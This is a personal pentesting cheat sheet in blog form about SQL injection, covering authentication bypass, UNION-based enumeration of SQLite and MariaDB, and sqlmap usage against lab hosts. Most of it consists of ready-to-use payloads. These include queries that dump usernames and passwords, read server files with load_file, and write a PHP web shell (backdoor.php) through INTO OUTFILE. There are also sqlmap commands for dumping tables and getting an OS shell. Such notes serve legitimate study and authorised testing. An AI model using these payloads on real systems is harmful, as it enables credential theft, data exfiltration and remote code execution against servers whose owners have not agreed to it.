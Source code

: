 ```yaml
---
description: >-
  SQL Injection
title:  SQL Injection             # Add title here
date: 2023-02-11 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, SQL Injection]                     # Change Templates to Writeup
tags: [exploitation, sql injection]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### SQLi Authentication Bypass
A SQL query for a normal login, then, looks like this:
```bash
select * from users where name = 'tom' and password = 'jones';
```

If we control the value being passed in as _$user_, we can subvert the logic of the query by submitting `tom' or 1=1;#` as our username, which creates a query like this:
```bash
select * from users where name = 'tom' or 1=1;#' and password = 'jones';
```
SQLi payload:
```bash
tom' or 1=1;#
```
The pound character (#) is a comment marker in MySQL/MariaDB. It effectively removes the rest of the statement, so we're left with:
```bash
select * from users where name = 'tom' or 1=1;
```
If we do encounter errors when our payload is returning multiple rows, we can instruct the query to return a fixed number of records with the LIMIT statement:
```bash
select * from users where name = 'tom' or 1=1 LIMIT 1;#
```

### SQLite3
#### UNION Select
SQLite3 entrypoint:
```bash
http://192.168.186.52/debug.php?id=%27%27%20union%20select%20id,username,username,password,flag%20from%20users;--%20-
```
We need to know column and table names if we are going to extract data from them. This helps us execute a more surgical data extraction

We can add an _order by_ clause to the query for simple enumeration. This clause tells the database to sort the results of the query by the values in one or more columns. We can use column names or the column index in the query.

Let's submit the following URL:
```bash
http://10.11.0.22/debug.php?id=1 order by 1
```

This query instructs the database to sort the results based on the values in the first column. If there is at least one column in the query, the query is valid and the page will render without errors. We can submit multiple queries, incrementing the _order by_ clause each time until the query generates an error, indicating that the maximum number of columns returned by the query in question has been exceeded. Remember, a query can select all the columns in a table or just a subset of columns. We need to rely on this trial-and-error approach if we do not have access to the source query.

SQLi Payload:
```bash
'' union select id,time,username,password,flag from users;-- -
```
SQLi Payload:
After id=:
```bash
http://10.11.0.22/debug.php?id=1 union select 1,2,3,4,5 from users;-- -
```
SQLi Payload:
```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version
```

### MariaDB
The following examples use commands specific to MariaDB. However, most other databases offer similar functionality with slightly different syntax. Regardless of what database software we target, it's best to understand the platform-specific commands.

For example, to output the version of MariaDB, we can use this URL:

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version
```

This should output a "2" in the name field and the database version number in the comment field:

![Description](/assets/img/Pasted-image-20220905185827.png)

Good. It looks like that's working. Next, let's output the current database user with this query:

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()
```

This query reveals that the root user is being used for database queries:

![Description](/assets/img/Pasted-image-20220905185937.png)

We can enumerate database tables and column structures through the _information_schema_. The information schema stores information about the database, like table and column names. We can use it to get the layout of the database so that we can craft better payloads to extract sensitive data. The query for this would look similar to the following:

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
```

This should output a lot of data, most of which references information about the default objects in MariaDB. It will also include the table names but we will need to scroll through the output to find them.

![Description](/assets/img/Pasted-image-20220905185910.png)

The _users_ table looks particularly interesting. Let’s target that table and retrieve the column names with the following query:

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
```

This outputs all the column names for the _users_ table:
![Description](/assets/img/Pasted-image-20220905190646.png)

Armed with this information, we can extract the usernames and passwords from the table. We know that the original query selects three columns and the web page displays columns two and three. If we update our union payload, we can display the usernames in column two and the passwords in column three.

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users
```

This will output the database usernames in the name field and passwords in comments field:

![Description](/assets/img/Pasted-image-20230331135253.png)

##### SQL Injection to Code Execution
Read a file:
```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

Using the _INTO OUTFILE_ function to create a malicious PHP file in the server’s web root. Based on error messages we've already seen, we should know the location of the web root.

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE ' C:/xampp/htdocs/site2/public/backdoor.php'
```
If this succeeds, the file should be placed in the web root:

![Description](/assets/img/Pasted-image-20220905191039.png)

This command produces an error message but this doesn't necessarily mean the file creation was unsuccessful. 

### SQLMAP
Test if a paramater is vulnerable:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id"
```
List databases:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" --dbs
```
List tables from a specific database:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" -D <database> --tables
```
List columns from a specific table:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" -D <database> -T <table> --columns
```
Dump the database:
List tables from a specific database:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" -D <database> -T <table> --dump
```
Execute commands:
```bash
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```
SQLi with POST parameter:
```bash
sudo sqlmap -u "https://streamio.htb/login.php" --data "username=&password=" -p username --os-command
```
Examples:
[[StreamIO#^6ca422]]

### WebSocket

It is possible to execute an SQL Injection through a websocket. For further details read [Websocket Exploitation](https://shuciran.github.io/posts/Websocket-Exploitation) post.

### References 
[PayloadAllTheThings SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)
[SQLite database structure](https://www.sqlite.org/schematab.html)